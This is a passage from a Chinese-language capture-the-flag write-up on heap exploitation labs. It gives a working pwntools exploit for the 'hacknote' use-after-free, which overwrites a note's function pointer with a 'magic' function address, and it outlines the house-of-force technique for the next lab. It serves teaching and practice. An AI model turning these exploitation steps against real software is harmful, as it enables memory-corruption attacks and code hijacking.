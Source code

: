 那没啥话说，想办法让我们的content建立在之前的note chunk上就行了。

exp：

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'

cn = process('./hacknote')
bin = ELF('./hacknote')

def add_note(size,content):
    cn.recvuntil(":")
    cn.sendline("1")
    cn.recvuntil(":")
    cn.sendline(str(size))
    cn.recvuntil(":")
    cn.sendline(content)

def del_note(index):
    cn.recvuntil(":")
    cn.sendline("2")
    cn.recvuntil(":")
    cn.sendline(str(index))

def print_note(index):
    cn.recvuntil(":")
    cn.sendline("3")
    cn.recvuntil(":")
    cn.sendline(str(index))

add_note(24,'aaa')
add_note(24,'bbb')
add_note(24,'ccc')
#content的大小不等于16（note的大小），是为了等会分配16bytes的content不会被分配到之前的content的bin上，而是分配到note的bin上

del_note(0)
del_note(1)

add_note(8,p32(bin.symbols['magic']))

print_note(0)
cn.interactive()
```



## lab11-1

这题考察house of force的利用，house of force的细节这里就不说了。

一般步骤：
1.把topchunk的size改大（一般改为-1，即32位下的0xffffffff，64位下的0xffffffffffffffff）以便能把chunk建在内存的任意一个地点。
2.建立一个evil_size大小的chunk,使建完这个chunk后av->top会指向我们想要的target-0x8/0x10(chunk_header_size)
3.再次建立chunk，会建在之前av->top所指的地方，就是我们的target了。
